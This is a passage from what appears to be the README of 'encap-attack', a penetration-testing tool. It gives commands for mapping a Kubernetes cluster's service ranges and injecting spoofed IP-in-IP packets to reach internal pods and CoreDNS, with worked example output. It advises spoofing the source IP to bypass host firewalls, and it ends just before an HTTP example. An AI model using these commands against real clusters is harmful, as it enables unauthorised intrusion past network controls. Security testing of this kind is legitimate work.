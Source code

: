 To extract a predicted service IP range and CoreDNS address, and optionally attempt to connect to it using IP-in-IP, two commands exist: `kubeintel guess-cidr` and `kubeintel attempt-ipip`.

To guess the service CIDR:

```shell
encap-attack kubeintel guess-cidr <api_server_address>
```

To guess the service CIDR and attempt to connect to CoreDNS using IP-in-IP, run the following. We recommend spoofing the source IP as another host or Kubernetes node to bypass host firewall rules, using the `-s` flag:

```shell
encap-attack kubeintel attempt-ipip -a <api_server_address> -s <another_host_ip>
```

Example:

```shell
encap-attack kubeintel attempt-ipip -a 192.168.124.9 -s 192.168.124.11
```

The tool will also provide `kubectl` commands to extract pod/service IP ranges and VXLAN network information from a Kubernetes cluster, with `encap-attack kubeintel get-ip-ranges` and `encap-attack kubeintel get-net-info`, respectively. The `kubectl` commands provided will output the information needed to simulate encapsulated packets to the overlay network.

### Attack an IP-in-IP network - `ipip`

IP-in-IP functionality uses the `ipip` subcommand.

You must ensure the intermediary destination node (`-d` flag) is that on which the target pods reside. If the pods run on a different node, you will receive no response.

To send a single DNS request, run the following. We recommend spoofing the source IP as another host or Kubernetes node to bypass host firewall rules, using the `-s` flag:

```shell
encap-attack ipip -d <destination_host_ip> -s <another_host_ip> request -di <internal_destination_ip> dns -t <query_type> <domain_to_query>
```

Example:

```
# encap-attack ipip -d 192.168.124.9 -s 192.168.124.11 request -di 10.100.99.5 dns -t A kube-dns.kube-system.svc.cluster.local
Running in IP-in-IP mode

Interface IP: 192.168.124.200

Sending DNS packet: Ether / IP / IP / UDP / DNS Qry "b'kube-dns.kube-system.svc.cluster.local.'" 

Response:
  kube-dns.kube-system.svc.cluster.local: 10.96.0.10
```

For an HTTP request:
